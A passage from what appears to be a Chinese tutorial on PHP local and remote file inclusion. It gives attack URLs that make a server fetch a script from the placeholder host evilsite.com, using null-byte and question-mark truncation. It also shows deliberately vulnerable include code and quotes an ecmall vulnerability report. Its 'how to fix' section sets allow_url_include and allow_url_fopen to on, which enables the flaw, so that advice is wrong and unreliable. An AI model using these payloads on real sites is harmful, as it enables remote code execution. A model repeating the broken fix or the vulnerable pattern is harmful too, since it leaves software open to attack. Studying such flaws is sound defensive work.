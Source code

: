 使用空字节的例子

```
http://127.0.0.1/test.php?pagina=http://evilsite.com/evilscript.txt%00

```

这样可以去掉末尾的.php后缀

再如以下例子

```
<?php
    $pagina=$_GET['pagina'];
    include $pagina.'logged=1';
?>

```

使用“?”问号的例子

```
http://127.0.0.1/test.php?pagina=http://evilsite.com/evilscript.txt?logged=1

```

这样可以把后面的一大坨东西弄没

如何修复：

```
allow_url_include = on
allow_url_fopen = on

```

简单来说：不要允许特殊字符出现，过滤“/”，或者过滤http，https，ftp和SMB

好吧，来举一个乌云上Frears的例子

[WooYun: ecmall本地文件包含](http://www.wooyun.org/bugs/wooyun-2011-02654)

```
//只判断是app是否设置，然后去掉了两端空格 
$app = isset($_REQUEST['app']) ? trim($_REQUEST['app']) : $default_app; 
$act = isset($_REQUEST['act']) ? trim($_REQUEST['act']) : $default_act; 

//很明显可以看出$app是我们可以控制的、由于后面连接了.app.php所以利用的时候要截断。 
$app_file = $config['app_root'] . "/{$app}.app.php";     

//应为是本地包函、所以is_file是为真的 
if (!is_file($app_file))     
{     
    exit('Missing controller');     
}     

//这里直接就包函了，这么低级的漏洞、我都不好说什么了. 
require($app_file);

```
